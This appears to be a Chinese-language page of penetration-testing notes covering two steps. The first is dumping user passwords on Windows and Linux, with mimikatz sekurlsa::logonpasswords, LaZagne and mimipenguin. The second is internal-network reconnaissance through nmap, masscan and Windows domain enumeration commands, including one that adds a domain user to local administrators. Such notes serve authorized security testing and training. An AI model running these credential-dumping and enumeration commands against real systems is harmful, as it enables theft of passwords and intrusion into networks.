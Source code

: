 ### 获取当前用户密码Windows

```sh
#mimikatz
#高版本无法抓取明文密码
privilege::debug
sekurlsa::logonpasswords

#Invoke-WCMDump

mimiDbg

LaZagne

NirLauncher

quarkspwdump
```



### 获取当前用户密码Linux

```sh
mimipenguin
LaZagne
```



## 扩散信息搜集

```sh
#端口扫描
nmap
masscan

#内网拓扑分析
DMZ
管理网
生产网
测试网

#
```

### 常见信息搜集命令

```sh
ipconfig /all ------> 查询本机 IP 段，所在域等

net user ------> 本机用户列表
net localgroup administrators ------> 本机管理员[通常含有域用户]
net user /domain ------> 查询域用户
net group /domain ------> 查询域里面的工作组
net group "domain admins" /domain ------> 查询域管理员用户组
net localgroup administrators /domain ------> 登录本机的域管理员
net localgroup administrators workgroup\user001 /add ----->域用户添加到本机
net group "Domain controllers" -------> 查看域控制器(如果有多台)
net view ------> 查询同一域内机器列表
net view /domain ------> 查询域列表
net view /domain:domainname

dsquery computer domainroot -limit 65535 && net group "domain
computers" /domain ------> 列出该域内所有机器名
dsquery user domainroot -limit 65535 && net user /domain------>列出该域内所有用户名
dsquery subnet ------>列出该域内网段划分
```